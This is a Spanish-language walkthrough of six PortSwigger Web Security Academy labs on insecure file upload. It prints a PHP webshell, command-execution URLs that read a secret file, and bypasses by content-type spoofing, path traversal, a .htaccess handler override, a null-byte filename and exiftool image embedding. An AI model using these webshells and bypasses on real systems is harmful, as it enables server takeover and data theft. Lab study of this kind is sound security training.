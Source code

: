 #PortSwigger - Webshell

## Lab1
En este lab, se nos presenta un sistema de login donde podemos subir un archivo sin sanitizar. Subimos un archivo PHP como "pwned.php" y accedemos a la webshell con el siguiente enlace:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=whoami

Respuesta:
- carlos

El contenido de la webshell es el siguiente:

• <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>


Luego, para completar el lab, accedemos a la carpeta `/home/carlos/secret` para encontrar la flag:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- 4ThqTUOfwcuCkavnxxofmt8g9lmf5Ozj

# Lab2
En este lab, se nos impide subir archivos PHP, pero podemos eludir esta restricción utilizando BurpSuite. Modificamos la petición para cambiar el tipo de contenido a "image/png" y subimos el archivo "pwned.php". Luego, ejecutamos la webshell:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- aBKOzOBOVJm8gcKUDu4YSdYTiSt3nnEm

## Lab3
En este lab, la carpeta "/avatars" está sanitizada, por lo que debemos realizar un ataque de path traversal. Subimos la webshell como "../pwned.php" de forma que evitemos el directorio sanitizado mediante un bypass con el nombre y utilizamos BurpSuite para cambiar el nombre del archivo. Luego, accedemos a la webshell en la nueva ubicación:

https://0a6f0056042de6df8351a56a00f00063.web-security-academy.net/files/pwned.php?cmd=whoami

Respuesta:
- carlos

Para obtener la flag:

https://0a6f0056042de6df8351a56a00f00063.web-security-academy.net/files/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- lQZg3EpoTDXqTBUsJGj4kG1K6gtvelMx

# Lab4
En este lab, no se permite la ejecución de archivos .php. Cambiamos la extensión del archivo a ".png" y subimos un archivo ".htaccess" para permitir la ejecución de archivos ".png" como ".php". Ejecutamos la webshell:

https://0a3700c704dca7b28081adda00cd0094.web-security-academy.net/files/avatars/pwned.png?cmd=cat%20/home/carlos/secret

Contenido de ".htaccess" es el siguiente:

•AddType application/x-httpd-php .png

Respuesta:
- z0X9db4IUCnJOKli3LpTghJtobI5pmGD

# Lab5
En este lab, solo se permiten archivos ".png" y ".jpeg". Utilizamos BurpSuite para cambiar el nombre del archivo y el tipo de contenido para eludir la restricción. Subimos el archivo como "pwned.php%00.png" y ejecutamos la webshell:

https://0abb00e3043ba7768096c6bb0014005b.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- ggRQHtZZeBt2dChk990rBYnkZcVnqs2E

# Lab6
En este lab, solo se permiten imágenes. Utilizamos la herramienta "exiftool" para mezclar el código PHP con una imagen. Subimos el archivo "exploit.php" y ejecutamos la webshell:

Primero descargamos una imagen cualquiera con el nombre, en este caso  "United.png"y luego con el siguiente comando hacemos que la imagen contenga el codigo php malicioso:

>exiftool -Comment='<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";?>' /home/kali/Desktop/Untitled.png -o exploit.php

https://0a93002604f390db8204936f0030003d.web-security-academy.net/files/avatars/exploit.php?cmd=cat%20/home/carlos/secret

Respuesta:
- YpUjBhe6HOxnddYWHLnHLyfyDAm1CIVF
